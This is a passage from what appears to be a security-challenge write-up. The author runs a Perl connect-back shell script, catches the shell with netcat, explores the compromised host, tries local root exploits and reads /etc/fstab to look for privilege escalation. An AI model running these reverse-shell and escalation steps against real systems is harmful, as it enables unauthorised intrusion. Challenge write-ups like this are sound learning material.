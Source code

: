 Next, ran the following command on the server :

perl /var/lock/corelanshell.pl 192.168.6.114 4455 :

[![image](:/30001a74a4494900b386ac6444acd1db "image")](https://www.corelan.be/wp-content/uploads/2010/05/image27.png)

Result :

```
root@krypt2:/vpn/70# nc -lvp 4455             
listening on [any] 4455 ...
connect to [192.168.6.114] from (UNKNOWN) [192.168.6.66] 56073
:: Depth :: Connect Back Shell ::
```

Ok, I’ve got a nice reverse shell.

```
root@krypt2:/vpn/70# nc -lp 4455
:: Depth :: Connect Back Shell ::
pwd
/var/lock
ls -al
total 8
drwxrwxrwt  4 root     root      100 May  4 15:58 .
drwxr-xr-x 14 root     root     4096 May  4 02:26 ..
drwxr-xr-x  2 www-data root       40 May  4 15:52 apache2
-rw-r--r--  1 www-data www-data  519 May  6  2010 corelanshell.pl
drwx------  2 root     root       40 May  4 15:52 lvm
```

Unfortunately I’m not running as root, so if the secret file is hidden somewhere/protected, then I need to find a way to get more privs.

Just to be sure, I did a quick search for all txt files, but couldn’t find anything useful.

Perhaps a local root exploit might work. The system seems to be running

```
Linux ghost 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

I tried about a dozen of local root exploits… but they all failed miserably… and lost a huge amount of time… (and I have to admit that I’m not that strong in Linux exploitation. )

But I never give up.

I looked at /etc/fstab :

```
cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid -o value -s UUID' to print the universally unique identifier
# for a device; this may be used with UUID= as a more robust way to name
# devices that works even if disks are added and removed. See fstab(5).
#
# system>             <dump>  
proc            /proc           proc    defaults        0       0
/dev/mapper/ghost-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda5 during installation
UUID=f9f46813-a78a-42e8-a007-53308212ee26 /boot           ext2    defaults        0       2
/dev/sdb1 /apachelogs          reiserfs    user,noauto,rw,exec,suid,user_xattr        0       2
/dev/sdc1 /tmp         ext2        noexec,nosuid,rw                    0       0
/dev/mapper/ghost-swap_1 none            swap    sw              0       0
/dev/scd0       /media/cdrom0   udf,iso9660 user,noauto,exec,utf8 0       0
/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0
```
